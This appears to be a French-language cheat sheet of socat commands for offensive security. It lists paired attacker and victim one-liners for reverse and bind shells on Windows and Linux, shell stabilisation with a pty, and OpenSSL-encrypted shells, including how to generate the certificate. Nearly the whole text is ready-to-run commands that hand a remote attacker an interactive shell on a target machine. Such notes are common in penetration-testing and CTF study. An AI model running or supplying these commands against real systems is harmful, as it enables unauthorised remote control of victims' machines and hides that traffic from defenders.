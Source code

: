 # Reverse shells

[Attaquant]
```
socat TCP-L:<port> -
```

Windows
```
socat TCP:<IP>:<PORT> EXEC:powershell.exe,pipes
```

Linux

```
socat TCP:<IP>:<PORT> EXEC:"bash -li"
```
<br>
<br>

# Bind Shells

Windows
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Linux
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

[Attaquant]
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
<br>
<br>

### Stabiliser des shells avec socat

[Attaquant] target -> Linux
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

[Victime] <a href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true">Socat précompilé</a>
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

<br>
<br>

### Shell encryptés !

Génération du certificat
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
```
cat shell.key shell.crt > shell.pem
```
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

[Victime]
linux
```
socat OPENSSL:<IP>:<PORT>,verify=0 EXEC:/bin/bash,pty,stderr,sigint,setsid,sane
```
windows
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

[Attaquant]
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
